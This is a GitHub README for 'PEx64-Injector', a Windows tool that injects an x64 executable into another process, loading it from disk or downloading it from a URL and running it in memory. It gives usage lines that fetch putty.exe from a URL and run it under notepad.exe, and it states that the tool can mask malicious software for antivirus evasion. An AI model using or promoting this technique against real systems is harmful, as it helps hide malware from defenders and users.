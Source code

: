 > # PEx64-Injector (Process Migrator) + Download Execute In Memory [Updated 23/10/2024]
> #### Inject any x64 exe to any x64 process ~~(Net FrameWork 3.5)~~ Upgraded to : Net FrameWork 4.7.2 Directly from the Internet or Locally, without touching the disk.
> #### No Administrator privileges required.
> ##### GIF Demo
> ![PoC](https://i.imgur.com/gILIbbd.gif)
> ### How can be used?
> ![shot](https://i.imgur.com/0EGhY2r.png)
> #### Download [here](https://github.com/0xyg3n/PEx64-Injector/releases/tag/1.0).
> #### Usage: Migrator.exe "localfilePath(Lpath)" or "direct URL" "Legitfile(fpath)"
> #### Usage Example: 1. Migrator.exe "C:\Users\User\Desktop\Putty64.exe" "C:\Windows\System32\notepad.exe"
> #### Usage Example: 2. Migrator.exe "https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe" "C:\Windows\System32\notepad.exe"
> #### Keep as a note that when you specify the migratefile it will launch as a new process and won't migrate to an already running process.
> #### Such tool can be utilized for AV evasion, masking malicious software under legitimate process.
![Code](https://i.imgur.com/OTyHK8b.png)

###### Special thanks to [GigaJew](https://github.com/gigajew/).
______________________
